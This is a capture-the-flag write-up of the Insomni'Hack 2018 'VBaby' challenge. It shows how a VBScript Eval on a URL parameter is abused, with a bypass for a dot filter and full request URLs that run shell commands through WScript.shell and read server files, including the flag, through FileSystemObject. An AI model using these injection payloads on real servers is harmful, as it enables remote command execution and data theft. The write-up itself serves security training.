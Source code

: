 ```yaml
---
title: Insomni'Hack 2018 - VBaby
---
```


# {{page.title}}
Solves: 22 / Points: 137

## Challenge description
```
FIXME The developer thinks he is good, show him he is not by grabbing the flag.
```

## Challenge resolution
The website has a single input, the `page` parameter. After playing with this input, the server returns a VBscript compilation error.

After some research, we find out that the server is performing an `EVAL` call on the provided input. However, the "dot" (.) character is filtered.

We can use two different technics to bypass the dot filter:
1. using `Chr(46)` and concatenation character `&`.
2. using `page=Request("cmd")` and putting the payload within `cmd` parameter.

In order to execute code in VBS, we can leverage `WScript.shell` object. To read the output of the command (and read file content), we use `scripting.FileSystemObject`.

First, we list files and folders within `C:\` by running `cmd /c dir C:\>C:\temp\dir.txt`:
```
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("wscript.shell").Run("cmd+/c+dir+C:\>C:\temp\dir.txt")
```
We read the content of `C:\temp\dir.txt` with:
```
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\temp\dir.txt").ReadAll
```
![Reading C folder]({{ site.url }}/assets/reading-c-folder.png)

And we find out that the flag is stored within `C:\this_file_contains_the_flags_guys.txt`.

This final request allows us to grab the flag:
```
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\this_file_contains_the_flag_guys.txt").ReadAll
```
![Reading flag]({{ site.url }}/assets/reading-flag.png)

